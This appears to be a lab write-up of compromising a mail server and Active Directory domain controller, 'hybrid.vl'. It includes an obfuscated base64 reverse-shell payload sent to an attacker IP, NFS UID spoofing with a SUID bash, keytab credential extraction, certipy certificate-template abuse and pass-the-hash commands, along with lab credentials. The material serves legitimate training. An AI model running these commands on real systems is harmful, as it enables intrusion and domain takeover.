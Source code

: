 # Enumeration
1.
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:bc:22:26:78:3c:b4:e0:6b:ea:aa:1e:c1:62:5d:de (ECDSA)
|_  256 a3:b5:d8:61:06:e6:3a:41:88:45:e3:52:03:d2:23:1b (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Roundcube Webmail :: Welcome to Roundcube Webmail
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: UIDL RESP-CODES SASL STLS CAPA TOP AUTH-RESP-CODE PIPELINING
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35201/tcp6  mountd
|   100005  1,2,3      35217/tcp   mountd
|   100005  1,2,3      57114/udp6  mountd
|   100005  2,3        36686/udp   mountd
|   100021  1,3,4      32822/udp   nlockmgr
|   100021  1,3,4      36721/tcp   nlockmgr
|   100021  1,3,4      39365/tcp6  nlockmgr
|   100021  1,3,4      45555/udp6  nlockmgr
|   100024  1          46461/tcp   status
|   100024  1          51301/tcp6  status
|   100024  1          53725/udp6  status
|   100024  1          58455/udp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: more capabilities OK SASL-IR IDLE ID post-login listed ENABLE IMAP4rev1 have Pre-login LOGIN-REFERRALS LOGINDISABLEDA0001 STARTTLS LITERAL+
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_ssl-date: TLS randomness does not represent time
587/tcp  open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: more capabilities AUTH=PLAIN SASL-IR OK ID post-login listed ENABLE IMAP4rev1 have Pre-login LOGIN-REFERRALS AUTH=LOGINA0001 LITERAL+ IDLE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL RESP-CODES USER SASL(PLAIN LOGIN) CAPA TOP AUTH-RESP-CODE PIPELINING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
2049/tcp open  nfs_acl  3 (RPC #100227)
33389/tcp open  mountd   1-3 (RPC #100005)
35217/tcp open  mountd   1-3 (RPC #100005)
36721/tcp open  nlockmgr 1-4 (RPC #100021)
39683/tcp open  mountd   1-3 (RPC #100005)
46461/tcp open  status   1 (RPC #100024)
```
2.
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-08 03:15:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HYBRID
|   NetBIOS_Domain_Name: HYBRID
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hybrid.vl
|   DNS_Computer_Name: dc01.hybrid.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-08T03:16:37+00:00
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Not valid before: 2024-04-07T03:15:05
|_Not valid after:  2024-10-07T03:15:05
|_ssl-date: 2024-04-08T03:17:16+00:00; -2s from scanner time.
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49668/tcp open  msrpc      Microsoft Windows RPC
53746/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
53748/tcp open  msrpc      Microsoft Windows RPC
53762/tcp open  msrpc      Microsoft Windows RPC
53769/tcp open  msrpc      Microsoft Windows RPC
53784/tcp open  msrpc      Microsoft Windows RPC
60502/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
There is a website on mail01.hybrid.vl:
![](attachment/ce35dd07e54137a5bf89a243f81151d5.png)
Checking the nfs:
```
showmount -e mail01.hybrid.vl
```
![](attachment/a7793e3ad1afe6e170bfa99835a2d621.png)

Mounting NFS:
```
sudo mount -t nfs mail01.hybrid.vl:/opt/share ./target-NFS/ -o nolock
```

There is a backup tarball and extracting it:
![](attachment/1e722b23ed371aa6866ca041119fdce8.png)

Now checking the dovecot-users file there is clear-text password:
![](attachment/cf7fab8a038202e6d07eb5ac1db724ee.png)
Now using this to login in the website:
![](attachment/473b539bc2ce250241857effcbf3d7a2.png)
A mail states the presence of markasjunkl plugin which we can use for rce:
![](attachment/f3cd1d7004fc59cd7f28fa01179ee536.png)

Changing identity like this lets us test it:
![](attachment/bf3fa48dec3d036f7766471044329f49.png)
Now trying to get reverse shell.

Base64 encode the payload and try to run
```
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC4xLjIwOC80NDMgMD4mMQ==|base64${IFS}-d|bash
```

Now putting the email in junk triggers the reverse shell:
![](attachment/5b55b192beda5c894cdf68b1d1f7a673.png)

Checking /etc/exports:
![](attachment/b3056c2774a1e39483a054b24cc6bdd2.png)

Now copying bash from victim machine into */opt/share* then accessing the share in attacker machine with a user `uwu` created with same uid and gid:
```
sudo useradd uwu -u 902601108
```
```
sudo passwd uwu
```
Copying bash to /tmp and changing ownership with:
```
sudo chown uwu:uwu bash
```
Then replacing the bash in the share with the changed ownership bash and giving SUID:
```
chmod +s bash
```

Now running bash with:
```
bash -p
```

We get a shell as peter.turner:
![](attachment/6bc4c50d004efc2d6f206c7544404b53.png)

From peter’s home directory, we can find `passwords.kdbx` file which is a keepass password safe file
We get domain password:
![](attachment/3356c199b06c33459efc5540bdde87a1.png)
We can use this password to check privileges of peter, which can run anything as root
![](attachment/bc12ddad93bcac6ea404d579441a22d6.png)


# DC Access
Running bloodhound:
```
bloodhound.py -d 'hybrid.vl' -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -gc 'dc01.hybrid.vl' -ns 10.10.132.229
```
![](attachment/4f62eb9d5741f908f4d23bc863533e73.png)

Now using it to check for vulnerable certificates(run on kali):
```
certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.208.21 -stdout -vulnerable -debug 
```
![](attachment/ab6f59fc40cf0695ed0047a8c8e76a22.png)
Then using `-old-bloodhound` to import the data into bloodhound.

Using root user in the linux machine and getting the `krb5.keytab` file and using  
```
keytabextract.py krb5.keytab
```
to decrypt it and we get creds for MAIL01$:
![](attachment/1cc40fc04bfb9645e9e66be0468da661.png)
Using this to req certificate in certipy:
`certipy req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dns 'dc01.hybrid.vl' -key-size 4096 -debug`

To get hashes:
`certipy auth -pfx administrator_dc01.pfx -dc-ip 10.10.208.21`
![](attachment/d0eaf69d4f7edcf7d642fbfe98128111.png)

Then to get admin shell:
`evil-winrm -i hybrid.vl -u administrator -H 60701e8543c9f6db1a2af3217386d3dc`
![](attachment/2378901f21065b52d14bc96e5d7454ad.png)